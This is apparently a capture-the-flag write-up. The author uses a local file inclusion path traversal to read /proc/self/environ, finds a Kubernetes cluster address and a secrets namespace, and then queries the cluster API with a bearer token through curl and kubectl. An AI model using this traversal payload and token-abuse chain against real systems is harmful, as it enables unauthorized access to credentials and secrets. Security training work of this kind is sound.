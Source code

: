 This led me to check the environment variables using the LFI we had. Yay!

I checked the following file: `/logs?service=../../../proc/self/environ` for environment variables, and it had a ton of useful information for this challenge. (Yeah, I didn’t spot the most informative details at first—it took a few hours before I finally saw it.) Anyway, here are a few interesting ones:
```bash
DEV_CLUSTER_ADDR=https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com
SECRETS_NAMESPACE=secret-namespace
```

The `DEV_CLUSTER_ADDR` pointed me to the Kubernetes cluster's address (The Internet-Facing API), and `SECRETS_NAMESPACE` gave me the namespace for the secrets. 

## Trouble with cURL
I was using `cURL` the whole time with the following command:
```bash
╭─rezy@dev ~  
╰─➤  curl -k -H "Authorization: Bearer <TOKEN>" https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com/api/v1/                          
{
  "kind": "APIResourceList",
  "groupVersion": "v1",
  "resources": [
    {
      "name": "bindings",
      "singularName": "binding",
      "namespaced": true,
      "kind": "Binding",
      "verbs": [
        "create"
      ]
    },
    {
      "name": "componentstatuses",
      "singularName": "componentstatus",
      "namespaced": false,
      "kind": "ComponentStatus",
      "verbs": [
        "get",
        "list"
      ],
[....//snip//.....]
```

But all I got was a 'forbidden' error when accessing secrets. Then, I discovered that `kubectl` can be used remotely.

## Kubectl Installation
We can find the installation guide for `kubectl` [here](https://kubernetes.io/docs/tasks/tools/).

## Endgame
Then, using the `kubectl` documentation, I ran the following command to list the namespaces/files that the current user (based on the JWT token we have) can access:
```bash
kubectl auth can-i --list \
  --server=https://7b9fc16d-5421-47b3-ab64-83dfee3050eb.k8s.ondigitalocean.com \
  --token=<TOKEN> \
  --certificate-authority=ca.crt \
  --namespace=secret-namespace\
```
